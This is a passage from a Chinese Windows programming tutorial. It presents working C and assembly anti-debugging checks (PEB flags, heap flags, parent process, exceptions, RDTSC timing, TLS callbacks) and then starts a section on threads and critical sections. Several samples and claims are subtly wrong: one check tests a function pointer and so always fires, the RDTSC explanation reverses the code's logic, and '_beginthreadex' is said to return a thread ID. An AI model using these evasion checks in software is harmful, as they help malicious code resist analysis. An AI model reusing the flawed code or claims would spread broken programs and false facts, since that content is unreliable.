首先我们可以使用`dt _teb`命令解析一下`TEB`的结构，如下`TEB`结构的起始偏移为0x0，而`0x30`的位置指向的是`ProcessEnvironmentBlock`也就是指向了进程环境块PEB。
```c
0:000> dt _teb
ntdll!_TEB
   +0x000 NtTib            : _NT_TIB
   +0x01c EnvironmentPointer : Ptr32 Void
   +0x020 ClientId         : _CLIENT_ID
   +0x028 ActiveRpcHandle  : Ptr32 Void
   +0x02c ThreadLocalStoragePointer : Ptr32 Void
   +0x030 ProcessEnvironmentBlock : Ptr32 _PEB       // PEB 进程环境块
```
只需要在进程环境块的基础上`+0x2`就能定位到线程环境块`TEB`中`BeingDebugged`的标志，此处的标志位如果为1则说明程序正在被调试，为0则说明没有被调试。
```c
0:000> dt _peb
ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
```
我们手动来验证一下，首先线程环境块地址是`007f1000`，在此基础上加`0x30`即可得到进程环境快的基地址，位置`FS:[0x30]`指向PEB的基地址，`007ee000`继续加0x2即可得到`BeingDebugged`的状态`ffff0401`此处我们只需要看byte位是否为1即可。
```c
0:000> r $teb
$teb=007f1000

0:000> dd 007f1000 + 0x30
007f1030  007ee000 00000000 00000000 00000000
007f1040  00000000 00000000 00000000 00000000

0:000> r $peb
$peb=007ee000

0:000> dd 007ee000 + 0x2
007ee002  ffff0401 0000ffff 0c400112 19f0775f
007ee012  0000001b 00000000 09e0001b 0000775f
```

有了上述知识点的理解，写出一段反调试代码来将变得很容易，如下代码片段所示，如果独立运行则会提示正常程序，一旦进程被调试则会提示异常，此处分别使用三段实现方式，读者可通过向`IsDebug()`传入不同的参数启用。
```c
#include <stdio.h>
#include <Windows.h>

// 判断程序是否被调试
int IsDebug(DWORD x)
{
    BYTE Debug = 0;

    if (x == 1)
    {
        __asm
        {
            mov eax, dword ptr fs : [0x30]
            mov bl, byte ptr[eax + 0x2]
            mov Debug, bl
        }
    }
    if (x == 2)
    {
        __asm
        {
            push dword ptr fs : [0x30]
            pop edx
            mov al, [edx + 2]
            mov Debug, al
        }
    }
    if (x == 3)
    {
        __asm
        {
            mov eax, fs:[0x18]         // TEB Self指针
            mov eax, [eax + 0x30]      // PEB
            movzx eax, [eax + 2]       // PEB->BeingDebugged
            mov Debug, al
        }
    }
    return Debug;
}

int main(int argc, char* argv[])
{

    if (IsDebug(1) && IsDebug(2) && IsDebug(3))
    {
        printf("[-] 进程正在被调试器调试 \n");
    }
    else
    {
        printf("[*] 正常运行 \n");
    }

    system("pause");
    return 0;
}
```

上述程序被运行，一旦处于调试器模式则会触发被调试的告警，如果恶意代码中使用该种技术阻碍我们正常调试，只需要在`x64dbg`的命令行中执行`dump fs:[30]+2`来定位到`BeingDebugged()`的位置，并将其数值改为0然后运行程序，会发现反调试已经被绕过了。



这里补充一个知识点，通过运用`IsDebuggerPresent()`调试函数同样可实现此类功能，IsDebuggerPresent 返回一个布尔值，用于指示调用进程是否正在被调试器调试。该函数不接受参数，并且如果进程正在被调试，则返回 TRUE，否则返回 FALSE。该函数的实现原理同样应用了`BeingDebugged`标志位的检测方法。
```c
#include <stdio.h>
#include <Windows.h>

DWORD WINAPI ThreadProc(LPVOID lpParam)
{
    while (TRUE)
    {
        // 检测用ActiveDebugProcess()来创建调试关系
        if (IsDebuggerPresent() == TRUE)
        {
            printf("当前进程正在被调试 \r\n");

            // 产生int3异常
            DebugBreak();
            break;
        }
        Sleep(1000);
    }
    return 0;
}

int main(int argc, char * argv[])
{
    HANDLE hThread = CreateThread(0, 0, ThreadProc, 0, 0, 0);
    if (hThread == NULL)
    {
        return -1;
    }

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    system("pause");
    return 0;
}
```

上述代码中我们通过使用`CreateThread()`函数创建了一个子线程用于每隔`1000`毫秒就检测一次是否被调试了，如果被调试则直接产生一个`DebugBreak()`也就是int3断点，其反调试效果如下图所示；



### 8.3 NtGlobalFlag

NtGlobalFlag 是一个`Windows`内核全局标记，在`Windows`调试方案中经常用到。这个标记定义了一组系统的调试参数，包括启用或禁用调试技术的开关、造成崩溃的错误代码和处理方式等等。通过改变这个标记，可以在运行时设置和禁用不同的调试技术和错误处理方式，比如调试器只能访问当前进程、只允许用户模式调试、启用特定的错误处理方式等等。但由于`NtGlobalFlag`标记是内核全局标记，其改变会影响整个系统的行为，需要谨慎处理。

利用该标记反调试，首先定位`dt -rv ntdll!_TEB`找到`TEB`结构并通过`TEB`找到`PEB`结构，然后找到`+0x068 NtGlobalFlag`，这个位置的`NtGlobalFlag`类似于`BeingDebugged`，如果是调试状态`NtGlobalFlag`的值会是`0x70`，所以可以判断这个标志是否为`0x70`来判断程序是否被调试了，首先我们来使用汇编代码解决。
```c
#include <stdio.h>
#include <windows.h>

// 返回调试状态
BOOL IsDebug()
{
    DWORD Debug = 0;
    __asm
    {
        mov eax, fs:[0x18]       // TEB基地址
        mov eax, [eax + 0x30]    // 找到PEB
        mov eax, [eax + 0x68]    // 找打 NtGlobalFlag
        mov Debug, eax           // 取出值
    }

    if (Debug == 112)
    {
        return TRUE;
    }

    return FALSE;
}

int main(int argc, char * argv[])
{

    if (IsDebug)
    {
        printf("[-] 程序正在被调试 \n");
    }
    else
    {
        printf("[*] 程序正常 \n");
    }

    system("pause");
    return 0;
}
```

当然除了使用纯汇编实现反调试外，我们也可以使用`NativeAPI`中的`ZwQueryInformationProcess()`这个函数来读取到程序中的PET数据，然后判断`PebBase+0x68`是否等于70，由于这个函数并没有公开，所以在使用时应该自行声明一下结构类型。
```c
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

// 声明该函数
typedef NTSTATUS(NTAPI *typedef_ZwQueryInformationProcess)(
    IN HANDLE ProcessHandle,
    IN PROCESSINFOCLASS ProcessInformationClass,
    OUT PVOID ProcessInformation,
    IN ULONG ProcessInformationLength,
    OUT PULONG ReturnLength OPTIONAL
    );

// 调试状态检测
BOOL IsDebug()
{
    HANDLE hProcess = NULL;
    DWORD ProcessId = 0;
    PROCESS_BASIC_INFORMATION Pbi;
    typedef_ZwQueryInformationProcess pZwQueryInformationProcess = NULL;
    ProcessId = GetCurrentProcessId();
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);

    if (hProcess != NULL)
    {
        HMODULE hModule = LoadLibrary("ntdll.dll");
        pZwQueryInformationProcess = (typedef_ZwQueryInformationProcess)GetProcAddress(hModule, "ZwQueryInformationProcess");

        NTSTATUS Status = pZwQueryInformationProcess(hProcess, ProcessBasicInformation, &Pbi,sizeof(PROCESS_BASIC_INFORMATION), NULL);
        if (NT_SUCCESS(Status))
        {
            DWORD ByteRead = 0;
            WORD NtGlobalFlag = 0;
            ULONG PebBase = (ULONG)Pbi.PebBaseAddress;

            // 读取调试标志并判断
            if (ReadProcessMemory(hProcess, (LPCVOID)(PebBase + 0x68), &NtGlobalFlag, 2, &ByteRead) && ByteRead == 2)
            {
                if (NtGlobalFlag == 0x70)
                {
                    return TRUE;
                }
            }
        }
        CloseHandle(hProcess);
    }

    return FALSE;
}

int main(int argc, char * argv[])
{
    if (IsDebug() == TRUE)
    {
        printf("[-] 进程正在被调试 \n");
    }
    else
    {
        printf("[*] 程序正常 \n");
    }

    system("pause");
    return 0;
}
```

### 8.4 ProcessHeap

ProcessHeap 是`Windows`进程的默认堆，每个进程都有一个默认的堆，用于在进程地址空间中分配内存空间。默认情况下`ProcessHeap`由内核进行初始化，该堆中存在一个未公开的属性，它被设置为加载器为进程分配的第一个堆的位置(进程堆标志)，`ProcessHeap`标志位于`PEB`结构中偏移为`0x18`处，第一个堆头部有一个属性字段，这个属性叫做`ForceFlags`属性偏移为`0x44`，该属性为0说明程序没有被调试，非0说明被调试，另外的`Flags`属性为2说明被调试，不为2则说明没有被调试。

```c
0:000> dt !_peb
ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x018 ProcessHeap      : Ptr32 Void       // 找到Process偏移地址

0:000> !heap                                  // 找出堆区首地址
        Heap Address      NT/Segment Heap
             1270000              NT Heap

0:000> !heap -a 1270000                       // 查询heep的内存
Index   Address  Name      Debugging options enabled
  1:   01270000 
    Segment at 01270000 to 0136f000 (00006000 bytes committed)
    Flags:                40000062
    ForceFlags:           40000060
    Granularity:          8 bytes
    Segment Reserve:      00100000
    Segment Commit:       00002000

0:000> dt _HEAP 1270000                       // 找到ForceFlags标志的偏移地址
ntdll!_HEAP
   +0x000 Segment          : _HEAP_SEGMENT
   +0x000 Entry            : _HEAP_ENTRY
   +0x040 Flags            : 0x40000062
   +0x044 ForceFlags       : 0x40000060
```
这里需要注意一点，堆区在不同系统中偏移值是不同的，在`Windows10`系统中`ForceFlags`属性位于堆头部偏移量为`0x44`处，而默认情况如果被调试则`ForceFlags`属性为`0x40000060`，而`Flags`标志为`0x40000062`，有了这些参考那么通过汇编语言实现将变得很容易，如下代码则是通过汇编分别读取这两个堆头参数；
```c
#include <stdio.h>
#include <windows.h>

// 两种方式输出
int IsDebug(DWORD x)
{
    DWORD Debug = 0;

    if (x == 1)
    {
        __asm
        {
            mov eax, fs:[0x18]       // TED基地址
            mov eax, [eax + 0x30]    // PEB基地址
            mov eax, [eax + 0x18]    // 定位 ProcessHeap
            mov eax, [eax + 0x44]    // 定位到 ForceFlags
            mov Debug, eax
        }
    }
    if (x == 2)
    {
        __asm
        {
            mov eax, fs:[0x18]       // TED基地址
            mov eax, [eax + 0x30]    // PEB基地址
            mov eax, [eax + 0x18]    // 定位 ProcessHeap
            mov eax, [eax + 0x40]    // 定位到 Flags
            mov Debug, eax
        }
    }

    return Debug;
}

int main(int argc, char * argv[])
{
    if (IsDebug(1) && IsDebug(2))
    {
        printf("[-] 进程正在被调试 \n");
    }
    else
    {
        printf("[*] 进程正常 \n");
    }

    system("pause");
    return 0;
}
```
另一种通过C语言实现的反调试版本，其反调试原理与上方相同，只不过此处我们使用了系统的API来完成检测标志位的。
```c
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI *typedef_ZwQueryInformationProcess)(
    IN HANDLE ProcessHandle,
    IN PROCESSINFOCLASS ProcessInformationClass,
    OUT PVOID ProcessInformation,
    IN ULONG ProcessInformationLength,
    OUT PULONG ReturnLength OPTIONAL
    );

BOOL IsDebug()
{
    HANDLE hProcess = NULL;
    DWORD ProcessId = 0;
    PROCESS_BASIC_INFORMATION Pbi;
    typedef_ZwQueryInformationProcess pZwQueryInformationProcess = NULL;
    ProcessId = GetCurrentProcessId();
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
    if (hProcess != NULL)
    {
        HMODULE hModule = LoadLibrary("ntdll.dll");
        pZwQueryInformationProcess = (typedef_ZwQueryInformationProcess)GetProcAddress(hModule, "ZwQueryInformationProcess");

        NTSTATUS Status = pZwQueryInformationProcess(hProcess, ProcessBasicInformation, &Pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);
        if (NT_SUCCESS(Status))
        {
            DWORD ByteRead = 0;
            DWORD ProcessHeap = 0;
            ULONG PebBase = (ULONG)Pbi.PebBaseAddress;
            DWORD ForceFlagsValue = 1;

            ReadProcessMemory(hProcess, (LPCVOID)(PebBase + 0x18), &ProcessHeap, 2, &ByteRead);
            ReadProcessMemory(hProcess, (LPCVOID)(ProcessHeap + 0x40), &ForceFlagsValue, 4, &ByteRead);

            if (ForceFlagsValue != 0)
            {
                return TRUE;
            }
        }
        CloseHandle(hProcess);
    }
    return FALSE;
}

int main(int argc, char * argv[])
{
    if (IsDebug())
    {
        printf("[-] 正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.5 DebuggerPresent

CheckRemoteDebuggerPresent 也是一个微软提供的反调试函数，该函数可以在本地或者远程进程中使用。函数接收两个参数进程句柄和一个指向布尔值的指针。如果指定的进程正在被调试，则函数会把指向布尔值的指针设为 TRUE，否则设为FALSE。

```c
#include <stdio.h>
#include <windows.h>

// 定义指针
typedef BOOL(WINAPI *CHECK_REMOTE_DEBUG_PROCESS)(HANDLE, PBOOL);

BOOL CheckDebugger()
{
    BOOL bDebug = FALSE;
    CHECK_REMOTE_DEBUG_PROCESS CheckRemoteDebuggerPresent;

    HINSTANCE hModule = GetModuleHandle("kernel32");
    CheckRemoteDebuggerPresent = (CHECK_REMOTE_DEBUG_PROCESS)GetProcAddress(hModule, "CheckRemoteDebuggerPresent");

    HANDLE hProcess = GetCurrentProcess();

    CheckRemoteDebuggerPresent(hProcess, &bDebug);
    return bDebug;
}

int main(int argc, char *argv[])
{
    if (CheckDebugger())
    {
        printf("[-] 进程正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.6 STARTUPINFO

STARTUPINFO 结构体，可以用来指定新进程的主窗口外观风格、背景颜色、标题等信息，也可以用来实现反调试技术。通常情况下，我们可以将`STARTUPINFO`结构体中的`dwFlags`成员设置为`STARTF_DEBUGONLYTHISPROCESS`，以防止调试器附加到当前进程。设置了`STARTF_DEBUGONLYTHISPROCESS`后，如果尝试通过调试器附加到该进程，则调试器将直接失败并退出。

程序启动时默认会通过`explorer`资源管理器，调用`CreateProcess()`函数创建的时候会把`STARTUPINFO`结构体中的值设置为0，但如果通过调试器启动程序时该值并不会发生变化，我们可以通过判断结构体中的`dwFlags`参数来实现反调试。

```c
#include <Windows.h>
#include <stdio.h>

BOOL IsDebug()
{
    STARTUPINFO si = { 0 };
    GetStartupInfo(&si);

    if (si.dwFlags != 1)
    {
        return TRUE;
    }
    return FALSE;
}

int main(int argc, char * argv[])
{
    if (IsDebug())
    {
        printf("[-] 正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.7 父进程检测反调试

首先这是一种比较奇特的反调试思路，通过检测自身父进程来判定是否被调试，原理非常简单，我们的系统在运行程序的时候，绝大多数应用程序都是由`Explorer.exe`这个父进程派生而来的子进程，也就是说如果没有被调试其得到的父进程就是`Explorer.exe`的进程PID，而如果被调试则该进程的父进程PID就会变成调试器的PID值，通过对父进程的检测即可实现检测是否被调试的功能。
```c
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int IsDebug()
{
    DWORD ExplorerId = 0;
    PROCESSENTRY32 pe32 = { 0 };
    DWORD ProcessId = GetCurrentProcessId();

    GetWindowThreadProcessId(FindWindow("Progman", NULL), &ExplorerId);

    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    if (hProcessSnap != INVALID_HANDLE_VALUE)
    {
        pe32.dwSize = sizeof(PROCESSENTRY32);
        Process32First(hProcessSnap, &pe32);
        do
        {
            // 先判断是不是我们自己进程的PID
            if (ProcessId == pe32.th32ProcessID)
            {
                // 判断父进程是否是 Explorer.exe
                if (pe32.th32ParentProcessID != ExplorerId)
                {
                    return TRUE;
                }
            }
        } while (Process32Next(hProcessSnap, &pe32));
    }
    return FALSE;
}

int main(int argc, char * argv[])
{
    if (IsDebug())
    {
        printf("[-] 进程正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.8 异常处理机制反调试

通常可以通过在程序中设置异常处理函数，并在其中发起一个异常，然后判断程序是否已经被调试器附加来实现反调试。如果异常处理函数没有被触发，则说明程序已经被调试器附加；如果异常处理函数被触发，则说明程序没有被调试器附加。

安装异常处理函数并手动触发，此时如果被调试器附加，则会不走异常处理流程，此时`IsDebug`将会返回默认的`False`，并直接走`_asm call pBuff;`在调试器不忽略`int3`中断的情况下，调试将会被终止。
```c
#include <Windows.h>
#include <stdio.h>

BOOL Exceptioni = FALSE;

LONG WINAPI ExceptionFilter(PEXCEPTION_POINTERS ExceptionInfo)
{
    Exceptioni = TRUE;
    return EXCEPTION_CONTINUE_EXECUTION;
}

BOOL IsDebug()
{
    ULONG OldProtect = 0;
    LPTOP_LEVEL_EXCEPTION_FILTER lpsetun;
    
    // 安装自己实现的 ExceptionFilter 自定义异常处理函数
    lpsetun = SetUnhandledExceptionFilter((LPTOP_LEVEL_EXCEPTION_FILTER)ExceptionFilter);
    LPVOID pBuff = VirtualAlloc(NULL, 0x1000, MEM_COMMIT, PAGE_READWRITE);
    
    *((PWORD)pBuff) = 0xc3;
    
    VirtualProtect(pBuff, 0x1000, PAGE_EXECUTE_READ | PAGE_GUARD, &OldProtect);

    _asm call pBuff;                       // 如果被调试,则执行中断,不会进行异常处理
    SetUnhandledExceptionFilter(lpsetun);  // 恢复异常处理
    return Exceptioni;
}

int main(int argc, char * argv[])
{
    if (!IsDebug())
    {
        printf("[-] 程序正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.9 RDTSC时钟检测反调试

RDTSC时钟检测同样可实现反调试检测，使用时钟检测方法是利用`rdtsc`汇编指令，它返回至系统重新启动以来的时钟数，并且将其作为一个64位的值存入`EDX:EAX`寄存器中，通过运行两次`rdstc`指令，然后计算出他们之间的差值，即可判定对方是否在调试我们的程序。

可以利用时钟检测技术来检测程序是否被调试器附加，其实现基本思路如下：

 - 获取当前时间戳 T1，即通过执行 rdtsc 指令获取当前 CPU 时钟计数器的值。
 - 执行一段代码，例如随机生成一个数字或者MessageBox等，使得程序中断一些时间，防止被调试器单步跟踪。
 - 获取当前时间戳 T2，即通过再次执行 rdtsc 指令获取当前 CPU 时钟计数器的值。
 - 计算时间戳之差，即 T2-T1，如果该差值较小，则表明程序正在被调试器跟踪。

```c
#include <Windows.h>
#include <stdio.h>

BOOL IsDebug()
{
    int Debug = 0;
    __asm
    {
        rdtsc           // 调用时钟
        xor ecx, ecx
        add ecx, eax    // 将eax与ecx相加
        rdtsc           // 再次调用时钟
        sub eax, ecx    // 两次结果做差值
        mov Debug, eax
    }
    
    printf("打印差值: %d \n", Debug);
    if (Debug >= 21)
    {
        return TRUE;
    }

    return FALSE;
}

int main(int argc, char * argv[])
{
    if (IsDebug())
    {
        printf("[-] 进程正在被调试 \n");
    }

    system("pause");
    return 0;
}
```

### 8.10 TLS线程局部存储反调试

TLS（Thread Local Storage）用来在进程内部每个线程中存储私有的数据。每个线程都会拥有独立的`TLS`存储空间，可以在`TLS`存储空间中保存线程的上下文信息、变量、函数指针等。TLS其目的是为了解决多线程变量同步问题，声明为TLS变量后，当线程去访问全局变量时，会将这个变量拷贝到自己线程中的TLS空间中，以防止同一时刻内多次修改全局变量导致变量不稳定的情况，先来看一段简单的案例:
```c
#include <Windows.h>
#include <stdio.h>

#pragma comment(linker, "/INCLUDE:__tls_used")

// TLS变量 
__declspec (thread) int g_nNum = 0x11111111;
__declspec (thread) char g_szStr[] = "TLS g_nNum = 0x%p ...\r\n";

// 当有线程访问tls变量时，该线程会复制一份tls变量到自己tls空间
// 线程只能修改自己的空间tls变量，不会修改到全局变量

// TLS回调函数A
void NTAPI t_TlsCallBack_A(PVOID DllHandle, DWORD Reason, PVOID Red)
{
    if (DLL_THREAD_DETACH == Reason) // 如果线程退出则打印信息   
        printf("t_TlsCallBack_A -> ThreadDetach!\r\n");
    return;
}

// TLS回调函数B
void NTAPI t_TlsCallBack_B(PVOID DllHandle, DWORD Reason, PVOID Red)
{
    if (DLL_THREAD_DETACH == Reason) // 如果线程退出则打印信息 
        printf("t_TlsCallBack_B -> ThreadDetach!\r\n");

    /* Reason 什么事件触发的
    DLL_PROCESS_ATTACH   1
    DLL_THREAD_ATTACH    2
    DLL_THREAD_DETACH    3
    DLL_PROCESS_DETACH   0        */
    return;
}

// 注册TLS回调函数，".CRT$XLB"
#pragma data_seg(".CRT$XLB") 
PIMAGE_TLS_CALLBACK p_thread_callback[] = { t_TlsCallBack_A, t_TlsCallBack_B, };
#pragma data_seg()

DWORD WINAPI t_ThreadFun(PVOID pParam)
{
    printf(g_szStr, g_nNum);
    g_nNum = 0x22222222;
    printf(g_szStr, g_nNum);
    return 0;
}

int main(int argc, char * argv[])
{
    CreateThread(NULL, 0, t_ThreadFun, NULL, 0, 0);
    Sleep(100);
    CreateThread(NULL, 0, t_ThreadFun, NULL, 0, 0);

    system("pause");
    return 0;
}
```

TLS（Thread Local Storage）中断是另一种反调试技术，它利用进程中的线程来执行自定义的中断处理函数，TLS中断处理函数会被在程序加载之前就运行，并能够抢在调试器对程序进行跟踪之前终止执行，这使得它成为一种相对安全的反调试技术。当程序被加载时，TLS中断会自动执行，而对于调试器来说，默认情况下是不会运行TLS中断处理函数的，因此可以利用这一点来判断程序是否正在运行在调试器下。
```c
#include <Windows.h>
#include <stdio.h>

// linker spec 通知链接器PE文件要创建TLS目录
#ifdef _M_IX86
#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")
#else
#pragma comment (linker, "/INCLUDE:_tls_used")
#pragma comment (linker, "/INCLUDE:_tls_callback")
#endif

void NTAPI __stdcall TLS_CALLBACK(PVOID DllHandle, DWORD dwReason, PVOID Reserved)
{
    if (IsDebuggerPresent())
    {
        MessageBox(NULL, " TLS_CALLBACK: 请勿调试本程序 !", "TLS Callback", MB_ICONSTOP);
        ExitProcess(0);
    }
}

// 创建TLS段
EXTERN_C
#ifdef _M_X64
    #pragma const_seg (".CRT$XLB")
    PIMAGE_TLS_CALLBACK _tls_callback = TLS_CALLBACK;
#else
    #pragma data_seg (".CRT$XLB")
    PIMAGE_TLS_CALLBACK _tls_callback = TLS_CALLBACK;
#endif

int main(int argc, char * argv[])
{
    system("pause");
    return 0;
}
```

## 第九篇：多线程与线程同步技术

本章主要介绍了Windows平台下线程同步和线程池技术。在多线程编程中，线程同步是一个重要的概念。为了确保线程之间的正确协作，需要使用一些机制来同步它们的操作。Windows提供了多种线程同步技术，如临界区、事件、互斥量和信号量等。

通过使用线程池技术，可以实现在应用程序中创建一组线程，这些线程可以共同处理任务。Windows平台提供了线程池API，可以方便地创建和管理线程池。本章内容涵盖了Windows平台下的线程同步和线程池技术，对于进行多线程编程的开发人员来说是非常有用的参考资料。

### 9.1 运用API创建多线程

在Windows平台下创建多线程有两种方式，读者可以使用`CreateThread`函数，或者使用`beginthreadex`函数均可，两者虽然都可以用于创建多线程环境，但还是存在一些差异的，首先`CreateThread`函数它是`Win32 API`的一部分，而`_beginthreadex`是`C/C++`运行库的一部分，在参数返回值类型方面，`CreateThread`返回线程句柄，而`_beginthreadex`返回线程ID，当然这两者在使用上并没有太大的差异，但为了代码更加通用笔者推荐使用后者，因为后者与平台无关性更容易实现跨平台需求。

#### 9.1.1 CreateThread

CreateThread 函数是`Windows API`提供的用于创建线程的函数。它接受一些参数，如线程的入口函数、线程的堆栈大小等，可以创建一个新的线程并返回线程句柄。开发者可以使用该句柄控制该线程的运行状态。需要注意，在使用`CreateThread`创建线程时，线程入口函数的返回值是线程的退出码，而不是线程执行的结果值。

CreateThread 函数原型如下：

```c
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```

参数说明：

 - lpThreadAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，指定线程安全描述符和访问权限。通常设为NULL，表示使用默认值。
 - dwStackSize：指定线程堆栈的大小，以字节为单位。如果`dwStackSize`为0，则使用默认的堆栈大小。(注：在32位程序下，该值的默认大小为1MB；在64位程序下，该值的默认大小为4MB)
 - lpStartAddress：指向线程函数的指针，这个函数就是线程执行的入口点。当线程启动时，系统就会调用这个函数。
 - lpParameter：指定传递给线程函数的参数，可以为NULL。
 - dwCreationFlags：指定线程的创建标志。通常设为0，表示使用默认值。
 - lpThreadId：指向一个`DWORD`变量的指针，表示返回的线程ID号。可以为NULL。

CreateThread 函数将创建一个新的线程，并返回线程句柄。开发者可以使用该句柄控制该线程的运行状态，如挂起、恢复、终止等。线程创建成功后，执行线程函数进行相应的业务处理。需要注意的是，在使用`CreateThread`创建线程时，线程入口函数的返回值是线程的退出码，而不是线程执行的结果值。
```c
#include <windows.h>
#include <iostream>

using namespace std;

DWORD WINAPI Func(LPVOID lpParamter)
{
  for (int x = 0; x < 10; x++)
  {
    cout << "thread function" << endl;
    Sleep(200);
  }
  return 0;
}

int main(int argc,char * argv[])
{
  HANDLE hThread = CreateThread(NULL, 0, Func, NULL, 0, NULL);
  CloseHandle(hThread);

  for (int x = 0; x < 10; x++)
  {
    cout << "main thread" << endl;
    Sleep(400);
  }

  system("pause");
  return 0;
}
```
如上所示代码中我们在线程函数`Func()`内没有进行任何的加锁操作，那么也就会出现资源的争夺现象，这些会被抢夺的资源就被称为是临界资源，我们可以通过设置临界锁来实现同一时刻内保持一个线程操作资源。

EnterCriticalSection 是Windows API提供的线程同步函数之一，用于进入一个临界区并且锁定该区域，以确保同一时间只有一个线程访问临界区代码。

EnterCriticalSection函数的函数原型如下：
```c
void EnterCriticalSection(
  LPCRITICAL_SECTION lpCriticalSection
);
```

参数说明：

 - lpCriticalSection：指向CRITICAL_SECTION结构体的指针，表示要进入的临界区。

EnterCriticalSection 函数将等待，直到指定的临界区对象可用并且已经锁定，然后，当前线程将进入临界区。临界区中的代码将在当前线程完成之前，不允许被任何其他线程执行。当线程完成临界区的工作时，应该调用`LeaveCriticalSection`函数释放临界区。否则，其他线程将无法进入临界区，导致死锁。

EnterCriticalSection 函数是比较底层的线程同步函数，需要开发者自行创建临界区，维护临界区的状态并进行加锁解锁的操作，使用时需要注意对临界区中的操作进行适当的封装和处理。同时，`EnterCriticalSection`函数也是比较高效的线程同步方式，对于需要频繁访问临界资源的场景，可以通过使用临界区来提高程序的性能。

```c
#include <Windows.h>
#include <iostream>

int Global_One = 0;

// 全局定义临界区对象
CRITICAL_SECTION g_cs;

// 定义一个线程函数
DWORD WINAPI ThreadProc(LPVOID lpParam)
{
  // 加锁防止线程数据冲突
  EnterCriticalSection(&g_cs);
  for (int x = 0; x < 10; x++)
  {
    Global_One++;
    Sleep(1);
  }

  // 执行完修改以后,需要释放锁
  LeaveCriticalSection(&g_cs);
  return 0;
}

int main(int argc, char * argv[])
{
  // 初始化临界区
  InitializeCriticalSection(&g_cs);
  HANDLE hThread[10] = { 0 };

  for (int x = 0; x < 10; x++)
  {
    // 循环创建线程
    hThread[x] = CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);
  }

  // 等待多个线程执行结束
  WaitForMultipleObjects(10, hThread, TRUE, INFINITE);

  // 最后循环释放资源
  for (int x = 0; x < 10; x++)
  {
    CloseHandle(hThread[x]);
  }

  printf("全局变量值: %d \n", Global_One);

  // 释放锁
  DeleteCriticalSection(&g_cs);

  system("pause");
  return 0;
}
```

#### 9.1.2 BeginThreadex

BeginThreadex 是`C/C++`运行库提供的用于创建线程的函数。它也接受一些参数，如线程的入口函数、线程的堆栈大小等，与`CreateThread`不同的是，`_beginthreadex`函数返回的是线程的ID，而不是线程句柄。开发者可以使用该`ID`在运行时控制该线程的运行状态。此外，`_beginthreadex`函数通常与`_endthreadex`配对使用，供线程退出时使用。

beginthreadex 函数的函数原型如下：
```c
uintptr_t _beginthreadex(
  void*                 security,
  unsigned             stack_size,
  unsigned(__stdcall*  start_address)(void*),
  void*                 arglist,
  unsigned             initflag,
  unsigned*            thrdaddr
);
```

参数说明：

 - security：与`Windows`安全机制相关，用于指定线程的安全属性，一般填NULL即可。
 - stack_size：指定线程的堆栈大小，以字节为单位。如果`stack_size`为0，则使用默认的堆栈大小。
 - start_address：线程函数的入口点。
 - arglist：传递给线程函数的参数。
 - initflag：线程标志，0表示启动线程后立即运行，`CREATE_SUSPENDED`表示启动线程后暂停运行。
 - thrdaddr：指向`unsigned`变量的指针，表示返回的线程ID号。可以为NULL。

与`CreateThread`相比，`_beginthreadex`函数返回线程ID而非线程句柄，使用时需要注意区分。与`CreateThread`不同的是，`_beginthreadex`函数接受传递给线程函数的参数放在`arglist`中，方便传递多个参数。线程使用完需要调用`_endthreadex`函数来关闭线程。当使用了`_beginthreadex`创建的线程退出时，会调用`_endthreadex`来结束线程，这里的返回值会被当做线程的退出码。

```c
#include <windows.h>
#include <iostream>
#include <process.h>

using namespace std;

unsigned WINAPI Func(void *arg)
{
  for (int x = 0; x < 10; x++)
  {
    cout << "thread function" << endl;
    Sleep(200);
  }
  return 0;
}

int main(int argc, char * argv[])
{
  HANDLE hThread = (HANDLE)_beginthreadex(NULL, 0, Func, NULL, 0, NULL);
  CloseHandle(hThread);
  for (int x = 0; x < 10; x++)
  {
    cout << "main thread" << endl;
    Sleep(400);
  }

  system("pause");
  return 0;
}
```

由于`CreateThread()`函数是`Windows`提供的API接口,在`C/C++`语言另有一个创建线程的函数`_beginthreadex()`该函数在创建新线程时会分配并初始化一个`_tiddata`块,这个块用来存放一些需要线程独享的数据,从而保证了线程资源不会发生冲突的情况,代码只需要稍微在上面基础上改进即可。

当然该函数同样需要设置线程临界区而设置方式与`CreateThread`中所展示的完全一致。
```C
#include <stdio.h>
#include <process.h>
#include <windows.h>

// 全局资源
long g_nNum = 0;

// 子线程个数
const int THREAD_NUM = 10;

CRITICAL_SECTION  g_csThreadCode;

unsigned int __stdcall ThreadFunction(void *ptr)
{
  int nThreadNum = *(int *)ptr;

  // 进入线程锁
  EnterCriticalSection(&g_csThreadCode);
  g_nNum++;
  printf("线程编号: %d --> 全局资源值: %d --> 子线程ID: %d \n", nThreadNum, g_nNum, GetCurrentThreadId());

  // 离开线程锁
  LeaveCriticalSection(&g_csThreadCode);
  return 0;
}

int main(int argc,char * argv[])
{
  unsigned int ThreadCount = 0;
  HANDLE handle[THREAD_NUM];

  InitializeCriticalSection(&g_csThreadCode);

